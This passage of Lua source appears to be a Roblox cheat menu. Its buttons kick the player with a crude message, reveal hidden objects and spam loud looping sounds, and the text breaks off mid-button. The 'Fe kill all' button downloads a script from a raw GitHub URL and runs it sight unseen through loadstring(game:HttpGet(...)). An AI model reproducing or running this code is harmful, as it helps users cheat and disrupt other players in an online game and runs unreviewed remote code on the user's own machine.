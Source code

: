 seee:Stop()
game.Players.LocalPlayer:Kick("cums!!!!")

end)
c:Button("Fe kill all",function()
 Notify("Loading Pipe Bomb", "", 1.5)  
loadstring(game:HttpGet("https://raw.githubusercontent.com/yeerma/such/a3a5bd84e59765dfb85e48e7427715cdb6039828/sasdsaw"))()
end)
d:Button("seer",function()
for i,v in pairs(game:GetDescendants()) do
pcall(function()
     v.Visible = true
end)end
end)
d:Button("Devious AF Walk",function()
 
if game.Players.LocalPlayer.Character:FindFirstChild("Torso") then
    game.Players.LocalPlayer.Character:FindFirstChild("Right Arm").Name = "a"
    
    game.Players.LocalPlayer.Character:FindFirstChild("Left Arm").Name = "a"
        else
        game.Players.LocalPlayer.Character:FindFirstChild("LeftHand").Name = "a"    
            
            game.Players.LocalPlayer.Character:FindFirstChild("RightUpperArm").Name = "a"

                game.Players.LocalPlayer.Character:FindFirstChild("RightLowerArm").Name = "a"
                    game.Players.LocalPlayer.Character:FindFirstChild("RightHand").Name = "a"
                        game.Players.LocalPlayer.Character:FindFirstChild("LeftUpperArm").Name = "a"
                            game.Players.LocalPlayer.Character:FindFirstChild("LeftLowerArm").Name = "a"
                                game.Players.LocalPlayer.Character:FindFirstChild("LeftArm").Name = "a"
end
 Notify("WHAT YOU SAY FOO", "", 1.5)  
end)
d:Button("Silence Broken by",function()
for i = 0,30 do
local Id = "http://www.roblox.com/asset/?id=1058427120"

local hi = Instance.new("Sound")
hi.Name = "Sound"
hi.SoundId = Id
hi.Volume = 10
hi.Looped = false
hi.archivable = false
hi.Parent = game.Workspace



while true do
   wait(math.random(10,100))
   hi:Play()
end
end
 Notify("certified classic", "", 1.5)  
end)
d:Button("cookie clicker",function()
